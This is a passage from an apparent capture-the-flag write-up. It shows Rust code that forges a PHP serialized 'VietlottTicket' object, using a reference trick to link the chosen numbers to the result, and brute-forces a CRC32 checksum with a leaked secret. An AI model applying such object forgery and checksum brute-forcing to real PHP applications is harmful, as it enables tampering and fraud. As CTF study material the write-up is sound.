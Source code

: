 Next, I brute-forced all possibilities in the 6 boxes with my payload to find the set of numbers that satisfy the checksum: `let target_checksum: u32 = 169074596;`. Still implemented in Rust:
```rust
{% raw %}
  use std::sync::{Arc, atomic::{AtomicBool, Ordering}};
  use std::thread;
  use crc32fast::Hasher;

  // PHP-like CRC32
  fn crc32_php(data: &[u8]) -> u32 {
      let mut hasher = Hasher::new();
      hasher.update(data);
      hasher.finalize()
  }

  fn calc_checksum(secret: &[u8], serialized_ticket: &[u8]) -> u32 {
      let first = crc32_php(&[secret, serialized_ticket].concat());
      let first_str = first.to_string();
      crc32_php(first_str.as_bytes())
  }

  // Create PHP serialized string for VietlottTicket
  fn serialize_ticket(owner: &str, result: &[u8]) -> String {
      let mut serialized = format!(
          "O:14:\"VietlottTicket\":4:{{s:5:\"owner\";s:{}:\"{}\";s:6:\"result\";a:6:{{",
          owner.len(),
          owner
      );

      for (i, &value) in result.iter().enumerate() {
          serialized.push_str(&format!("i:{};i:{};", i, value));
      }

      // choices reference to result
      serialized.push_str("}s:7:\"choices\";R:3;");

      // checksum null
      serialized.push_str("s:8:\"checksum\";N;}");

      serialized
  }
  fn main() {
      let target_checksum: u32 = 169074596;
      let secret_hex = "fd44d08c";
      let secret = hex::decode(secret_hex).unwrap();
      let owner = "haha";
      let max_number = 45u8;

      let found = Arc::new(AtomicBool::new(false));
      let threads = 12;
      let range_per_thread = (max_number as usize + 1) / threads + 1;

      let mut handles = vec![];

      for t in 0..threads {
          let start = t * range_per_thread;
          let end = ((t + 1) * range_per_thread).min(max_number as usize + 1);

          let secret_clone = secret.clone();
          let found_flag = Arc::clone(&found);
          let owner_clone = owner.to_string();

          let handle = thread::spawn(move || {
              let mut choices = [0u8; 6];
```